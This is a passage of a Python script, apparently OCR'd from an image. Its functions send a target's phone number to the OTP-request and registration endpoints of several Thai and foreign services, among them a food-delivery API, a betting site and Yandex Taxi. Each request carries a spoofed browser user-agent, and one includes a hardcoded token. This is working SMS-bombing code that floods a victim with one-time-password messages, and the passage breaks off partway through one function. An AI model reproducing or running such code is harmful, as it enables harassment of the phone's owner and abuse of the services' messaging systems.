     post("https://shoponline.ondemand.in.th/OtpVerification/VerifyOTP/SendOtp", data={"phone": f"0{phone}"}, headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"})





def sk30(phone):

    post("https://www.berlnw.com/reservelogin", data={"p_myreserve": f"0{phone}"}, headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"})





def sk31(phone):

    post("https://www.kickoff28.com/action.php?mode=PreRegister", data={"tel": f"0{phone}"}, headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"})





def sk32(phone):

    post("https://1ufabet.com/_ajax_/request-otp", data={"request_otp[phoneNumber]": f"0{phone}", "request_otp[termAndCondition]": "1", "request_otp[_token]": "XBNcvQIzJK1pjh_2T0BBzLiDa6vSivktDN317mbw3ws"}, headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"})





def p1112(phone):

    d=post('https://api2.1112.com/api/v1/otp/create',json={"phonenumber":phone,"language":"th"},headers= header).status_code



def p1112v2(phone):

    d=post('https://api.1112delivery.com/api/v1/otp/create',json={"phonenumber":phone,"language":"th"},headers=header).status_code



def yandex(phone):

    d=post("https://taxi.yandex.kz/3.0/launch/",json={},headers=header).json()

    d=post("https://taxi.yandex.kz/3.0/auth/",json={"id": d["id"], "phone": f"+66{phone[1:]}"},headers=header).text



def okru(phone):

    s=Session()

    s.headers.update({"User-Agent" : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38","Content-Type" : "application/x-www-form-urlencoded","Accept" : "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9"})
